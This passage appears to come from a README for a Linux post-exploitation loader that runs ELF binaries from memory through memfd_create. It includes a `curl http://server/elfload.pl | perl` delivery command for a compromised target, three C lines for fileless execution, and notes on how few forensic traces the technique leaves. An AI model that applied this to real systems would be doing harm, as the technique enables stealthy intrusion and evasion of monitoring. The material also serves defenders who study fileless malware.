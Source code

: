 Without creds but with access to the target (i.e. after exploiting on), in most
cases we can probably use the devopsy `curl http://server/elfload.pl | perl`
trick (or intercept someone doing the trick for us).  As long as the script
makes it to Perl's stdin and Perl gets an EOF when the script's all read, it
doesn't particularly matter how it gets there.

Artifacts
---------
Once running, the only real difference between a program running from an
anonymous file and a program running from a normal file is the
`/proc/<PID>/exe` symlink.

If something's monitoring system calls (e.g. someone's running `strace -f` on
sshd), the `memfd_create(2)` calls will stick out, as will passing paths in
`/proc/<PID>/fd` to `execve(2)`.

Other than that, there's very little evidence anything is wrong.

Demo
----
To see this in action, have a look at this asciicast.
[![asciicast](https://asciinema.org/a/173715.png)](https://asciinema.org/a/173715)

TL;DR
-----
In C (translate to your non-disk-touching language of choice):
1. `fd = memfd_create("", MFD_CLOEXEC);`
2. `write(fd, elfbuffer, elfbuffer_len);`
3. `asprintf(p, "/proc/self/fd/%i", fd); execl(p, "kittens", "arg1", "arg2", NULL);`

----
_Updated 20170402 to link to
https://0x00sec.org/t/super-stealthy-droppers/3715, from where I got
`execve("/proc/<PID>/fd/<FD>...`_
